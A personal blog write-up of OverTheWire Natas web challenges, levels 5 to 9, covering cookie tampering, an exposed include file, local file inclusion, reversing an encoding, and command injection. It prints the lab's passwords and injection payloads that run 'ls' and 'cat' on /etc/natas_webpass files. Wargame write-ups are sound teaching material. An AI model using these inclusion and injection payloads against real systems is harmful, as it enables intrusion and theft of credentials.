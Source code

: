 ```yaml
---
title: "Over the Wire NATAS: Levels 5-9"
date: 2020-11-25 20:13:00 -0800
categories: [overthewire, writeup]
tags: [writeup, web, linux, commandinjection]
toc: true
---
```

## Introduction

This is the second of my writeups for OverTheWire's Natas series of challenges. You can view the first part [here](natem135.github.io/posts/otw-natas-0-4/)

## Level 5

Username: natas5

Password: iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

Upon opening the webpage, I see the following message:

> Access disallowed. You are not logged in

There was nothing in the source code so I decided to check the cookies associated with the page. On Firefox/Chrome, this can be done by using the shortcut ``Ctrl+Shift+I`` --> ``Storage`` --> ``Cookies``. 

I see one cookie named ``loggedin`` with a value of 0. From experience, I can make the assumption that 0 = False, therefore 1 would equal True. I change the value of the cookie to 1 and refresh the page.

The text on the page now shows that I am logged in and presents the flag for the next level.

```
Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
```

## Level 6

Username: natas6

Password: aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

Upon opening the webpage, I see that there is a form where I can submit a query. There is also a link to the source code for this form.

This snippet of code looks interesting.

```
<?

include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>
```

It looks like the ``$secret`` variable it is compring it to comes from the file ``includes/secret.inc``. I naviagte to that web page to find the secret key.

```
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```

Submitting the value of this variable on the original form gives me the password for the next level.

```
Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 
```

## Level 7

User: Natas7

Password: 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 

Upon opening the challenge, I see links to two different pages: ``home`` and ``about``. 

I'll take a look at ``home``. 

There are things that stick out right away. The first thing is that from the source code, there is an interesting HTML comment.

```
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
```

The second thing is from the URL of the home page.

```
http://natas7.natas.labs.overthewire.org/index.php?page=home
```

The ``?page=`` parameter shows that this is a ``Local File Inclusion`` challenge. We can specify the path of the file we want to view, so let's view ``/etc/natas_webpass/natas8`` as that is where the password should be.

```
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
```

> DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe 

## Level 8

User: Natas8
Password: DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe 

It looks like there is another form where we can submit a query. Let's view the source code again:

```
$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
?>

<form method=post>
Input secret: <input name=secret><br>
<input type=submit name=submit>
</form>
```

Ok, it looks like we have to enter a string that, when passed through the ``encodeSecret`` function, equals the encodedSecret variable in the code.

Three operations are applied to it. First, it is encoded in base64. Second, the string is reversed. Finally, the ``bin2hex`` function is used. I'm not exactly sure what this does, so I google it. 

> Returns an ASCII string containing the hexadecimal representation of str.

Sounds simple enough, if we pass it through a hex value -> ascii representation tool online, we should be able to undo that.

Using [this](https://www.rapidtables.com/convert/number/hex-to-ascii.html) tool, I was able to get the following string:

> ==QcCtmMml1ViV3b

Now, I'll use [this](https://codebeautify.org/reverse-string) tool to reverse the string.

> b3ViV1lmMmtCcQ==

Finally, I'll base64 decode it using [this](https://www.base64decode.org/) tool.

We end up with ``oubWYf2kBq``, which when I submit as the query produces the password needed for level 9.

```
Access granted. The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
```

## Level 9

User: natas9

Password: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

We are given a form with the prompt ``Find words containing:``. Let's view the source code.

```
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

So it takes whatever we put in the form and throws it into the command ``grep -i $key dictionary.txt``.

We can control whatever is in ``$key``, so we can easily abuse this form. There are two different ways to easily solve it.

First, we can use the character ``;``. A semicolon is treated like you pressing the enter key, so it starts a new command.

Knowing that, we can assemble a simple injection to run commands.

```
wordthatwillnotbefound dictionary.txt; ls; grep -i
```

If we use this as our query, this is what the server will run:

```
grep -i wordthatwillnotbefound dictionary.txt; ls; grep -i dictionary.txt
```

Keeping in mind the first and last commands will not return anything, the output of the command ls is all that we will see.

This is the output:

```
dictionary.txt
index-source.html
index.php
index.php.tmpl
```

Cool! It works. Looking back at Level 7, we know that the flag for the next challenge will always be stored at ``/etc/natas_webpass/natas<next level>``, in this case the next level is 10, so our injection should reflect that.

```
wordthatwillnotbefound dictionary.txt; cat /etc/natas_webpass/natas10; grep -i
```

```
Output:

nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
```

## Conclusion

So far, all of the changes have been basic but I'm quickly reaching the limits of what I've already known/experienced and seen in previous CTFs. I'm excited to see how the next few levels will play out.